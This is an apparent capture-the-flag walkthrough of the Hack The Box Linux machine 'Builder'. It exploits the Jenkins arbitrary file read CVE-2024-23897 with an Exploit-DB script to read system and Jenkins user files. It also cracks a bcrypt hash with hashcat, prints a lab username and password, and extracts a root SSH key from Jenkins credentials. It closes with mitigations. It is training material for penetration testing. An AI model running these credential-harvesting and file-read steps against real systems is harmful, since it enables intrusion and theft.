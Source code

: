 ```yaml
---
title: Builder
date: 2025-06-16
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, Linux, Jenkins, JENKINS_HOME, JENKINS_HOME/users, Jenkins-script-console-creds] 
image: builder.png
media_subpath: /assets/img/posts/2025-06-16-builderHTB/
---
```

## Introduction

**Builder** is a *medium-difficulty Linux machine* that hosts a **Jenkins CI/CD** instance vulnerable to [**CVE-2024-23897**](https://nvd.nist.gov/vuln/detail/CVE-2024-23897). This flaw allows **unauthenticated attackers** to read arbitrary files on the Jenkins controller's file system. Using this, the attacker retrieves the **username and password hash** of the Jenkins user `jennifer`. With these credentials, authenticated access to Jenkins is achieved. Further enumeration reveals an **encrypted SSH private key**, which is cracked and used to gain root access.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22

Version - OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)

We usually skip SSH.

## Web

### Port 8080

Version - Jetty 10.0.18

Navigating to the page I see:

![image.png](image%202.png)

Under users I can see username `jennifer`.

## Exploitation

I tried logging in using `admin`:`admin` but that didn’t work. I found this [exploit] (https://www.exploit-db.com/exploits/36318)and if it works, we may be able to read `conf` or `password` from `JENKINS_HOME`. It didn’t work, at the bottom I see the version of Jenkins used `Jenkins 2.441`. And that this version is vulnerable to [arbitrary file read vulnerability](https://www.exploit-db.com/exploits/51993). 

```bash
gobuster dir -u http://$IP:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -b 400,403,404
```

```bash
python3 51993.py -u http://10.10.11.10:8080/ -p /etc/passwd
```

![image.png](image%203.png)

It worked. I want to find out where is `JENKINS_HOME` directory.

```bash
python3 51993.py -u http://10.10.11.10:8080/ -p /proc/self/environ
```

![image.png](image%204.png)

And also as you can notice we are dealing probably with a container.

Searching for login credentials I see:

![image.png](image%205.png)

It turns out, jenkins create a directory with arbitrary name under users directory and store sensitive information under that directory. We remember the user we saw, that means there is probably a `/users` and `/some_dir` in Jenkins folder structure. Reading Jenkins documentation we see if some user is created it will be stored under `users` directory and the information about its `arbitraty_named_dir` can be found under `/users/users.xml`.

```bash
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/users.xml
```

![image.png](image%206.png)

Jennifer’s directory is `jennifer_12108429903186576833`. Let’s read now `config.xml`:

```bash
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
```

I found a hash here:

![image.png](image%207.png)

Let’s try to crack it, it is a `bcrypt` hash:

```bash
hashcat -m 3200 jenn.hash /usr/share/wordlists/rockyou.txt
```

```bash
hashcat -m 3200 jenn.hash /usr/share/wordlists/rockyou.txt --show
```

![image.png](image%208.png)

Now let’s login.

![image.png](image%209.png)

## Privilege Escalation

If I try to get a shell we are probably gonna inside of a docker container. I remember that app stored root credentials. Going to `/Credentials` I can see it, it seems root private key is stored here but it concealed, but we can change the root private key. As we can’t change `authorized_keys` and it is only compatible with current private SSH key I am gonna try to read the current one.

![image.png](image%2010.png)

Inspecting page source I can see the private key there:

![image.png](image%2011.png)

But it is not in good format, I found this [post](https://stackoverflow.com/questions/34795050/how-do-i-list-all-of-my-jenkins-credentials-in-the-script-console), where you can find a script that you can use to read credentials.

![image.png](image%2012.png)

After running I can see credentials in nice format.

Using the key we can login as root user:

```bash
ssh root@$IP -i key
```

![image.png](image%2013.png)

## Credentials

```bash
jennifer:princess
```

## Mitigation

- **Patch Jenkins** immediately to a version that fixes CVE-2024-23897.
- Disable or restrict **unauthenticated access** to Jenkins endpoints.
- Use **strong encryption and passphrases** for SSH keys and restrict their exposure.
- Enforce **role-based access control** in Jenkins and review user permissions regularly.
- Monitor Jenkins logs for **unusual file access patterns** and credential misuse.

